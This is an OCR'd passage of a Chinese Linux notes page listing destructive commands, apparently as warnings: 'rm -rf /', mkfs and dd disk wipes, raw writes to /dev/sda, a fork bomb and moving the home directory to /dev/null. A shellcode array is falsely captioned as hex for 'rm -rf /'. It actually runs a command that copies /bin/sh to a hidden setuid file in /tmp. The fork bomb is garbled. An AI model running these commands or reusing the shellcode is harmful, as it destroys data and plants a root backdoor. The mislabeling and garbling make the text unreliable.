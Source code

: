### rm -rf

```shell
rm -rf /


char esp[] __attribute__ ((section(“.text”))) /* e.s.p release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
（16进制的[rm -rf /]）


```

### 抹盘

```
mkfs.ext3 /dev/sda

(vfat、ext2、ext3、bfs……)
```

### dd

```shell
dd if=/dev/zero of=/dev/sda #全部硬盘清零。
dd if=/dev/sda of=/dev/sdb 用第一块硬盘的内容覆盖第二块的内容。
dd if=something of=/dev/sda 往硬盘上写垃圾数据。
```



```shell
){:|:&};:

any_command > /dev/sda  #写入大量的RAW数据

mv /home/yourhomedirectory/* /dev/null #移动主目录
```



## 监控

### 整机top
整机监控：top htop uptime简版

